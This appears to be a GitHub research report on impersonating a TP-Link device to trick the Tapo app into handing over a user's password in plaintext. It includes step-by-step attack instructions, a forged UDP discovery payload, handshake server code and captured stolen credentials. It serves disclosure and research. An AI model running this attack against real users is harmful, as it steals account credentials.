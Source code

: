 # TP-Link_Tapo_Hack
Deceiving the Tapo app by impersonating a TP-Link device

REPORT
Authors
Vincenzo De Angelis (vincenzo.deangelis@unirc.it) and Sara Lazzaro (sara.lazzaro@unirc.it).
Researchers at the University of Reggio Calabria.
Objective
Bypassing the authentication mechanism of the TP-Link Tapo app to obtain the victim’s password of their Tapo App in plaintext.
Conditions of the attack
1)	The attacker is in the same network of the Tapo app (reachable through UDP broadcast)
and one of the following two:
2a) The attacker knows the username (email address) of the victim in the Tapo app OR
2b) A TP-Link device is present in the network of the attacker and the Tapo app 
APP version
Tapo Version 3.1.315
Overview of the authentication mechanism of the Tapo App
The Tapo app uses the following discovery and authentication mechanism (with some devices). First, the app broadcast (255.255.255.255) in UDP a discovery message. A TP-Link device connected to the network responds to the application by providing some information including its IP address. The app starts a handshake mechanism by contacting the device through HTTP and providing its public key. The device answers by encrypting a symmetric key with such a public key. The app provides the credentials (username and password) encrypted with the symmetric key.
Overview of the attack
The attacker simulates a TP-Link device and when receives the HTTP handshake, it encrypts its own symmetric key. Then, it receives the encrypted credentials and can decrypt them.





Detailed steps of the attack

Step 1-OWNER parameter discover
The first step consists in finding the OWNER parameter used by the Tapo App before starting the HTTP handshake.
If the attacker knows the email address of the victim in the Tapo App (Condition 2a), the OWNER parameter is simply the MD5 digest of this email address and can be computed in Python as follows (OWNERFromMD5.py):
import hashlib
TapoEmailVictim=b"EMAIL_ADDRESS_VICTIM"
OWNER = hashlib.md5(TapoEmailVictim).hexdigest().upper()
print(OWNER)

In the case the attacker does not know the email of the victim (Condition 2b), the OWNER parameter can be discovered by leveraging the TP-Link devices connected to the network. Indeed, they include this parameter in the plaintext answer to the broadcast request of the Tapo App. 
Then, the attack consists in simulating the UDP broadcast request of the Tapo-App to obtain the OWNER parameter from a TP-Link device. 
To do this use the Script OWNERFromDevice.py by inserting the IP address of the attacker.
attackerIP = "IP_ADDRESS_ATTACKER"
attackerPort = 53353
bufferSize = 2048

We tested it in a network in which the TP-Link Tapo Smart Plug P110 was connected.
This is the result:
stolen owner = 65C008A8F038F16A57E63F41EA51CC5B







Step 2-Deceiving the Tapo app by impersonating a TP-Link device.
The second step consists in deceiving the Tapo app by simulating the presence of a TP-Link device in the network. Specifically, this is performed by the attacker by answering the UDP broadcast request of the Tapo App thus simulating the behavior of an honest device. 
To do this, lunch the script UDPImpersonation.py by specifying the IP address of the attacker and the OWNER parameter retrieved from Step 1.
attackerIP = "IP_ADDRESS_ATTACKER"
OWNER="OWNER_FROM_STEP_1"
localPort = 20002
bufferSize = 1024

In this script, we simulated the response of a TP-Link Tapo Smart Plug P110 (but it works without the presence of any device in the network).
The UDP response includes the following JSON:
udpJSONPayload={"result":{"device_id":"6447b7fc4902ab3a83f973a2767a38aa","owner":OWNER,"device_type":"SMART.TAPOPLUG","device_model":"P110(EU)","ip":attackerIP,"mac":"30-DE-4B-45-12-60","is_support_iot_cloud":False,"obd_src":"tplink","factory_default":False,"mgt_encrypt_schm":{"is_support_https":False,"encrypt_type":"AES","http_port":80,"lv":1}},"error_code":0}

Observe that all the parameters are fixed except for the OWNER and ATTACKER IP parameters used by the Tapo app to perform a check and start the HTTP-based handshake with the attacker device. The other relevant parameter is “lv:1” so that the victim’s password of the Tapo App is received in cleartext in the next step.
Step 3-Bypass the HTTP handshake to obtain the password in plaintext.
After receiving the UDP response from the attacker (see Step 2), the Tapo app starts an HTTP handshake with the attacker. First, the Tapo app sends an HTTP request including its RSA public key. Then, the attacker encrypts a symmetric (AES) key with such an RSA key and sends the result in the HTTP response. The Tapo app decrypts the AES key using the RSA private key and uses the AES key to encrypt the victim’s credentials including the password in cleartext. This message is sent through a new HTTP request to the attacker. The attacker uses the AES key to decrypt the password.
To perform this step lunch HTTPHandshakeImpersonation.py by specifying the IP address of the attacker.
def run():
     attackerIP ="ATTACKER_IP_ADDRESS"
     server_address = (attackerIP, 80)
     httpd = HTTPServer(server_address, RequestHandlerHTTP)
     httpd.serve_forever()
The final result, reporting the victim’s password, is shown below:
10.0.0.113 - - [22/May/2023 10:26:16] "POST /app HTTP/1.1" 200 -
stolenpassword=Vincenzo&Sara
Summary of the attack
1)Lunch either OWNERFromMD5.py or OWNERFromDevice.py to obtain the OWNER parameter.
2)Lunch HTTPHandshakeImpersonation.py and UDPImpersonation.py (lunch a HTTP and UDP server simultaneously)
3)Wait for the user to open the home of the Tapo App and obtain the password in the console of HTTPHandshakeImpersonation.py .
Observations
This attack is not a vulnerability of a specific device (it can be conducted even in the case no device is present in the network) but it concerns the authentication protocol the Tapo App uses. To solve the problem, we suggest removing the use of local traffic and relying on the cloud through TLS messages.
Responsible Disclosure
We have responsibly disclosed the issue to the TP-Link company. They acknowledged it and confirmed that the Tapo app is now fixed.

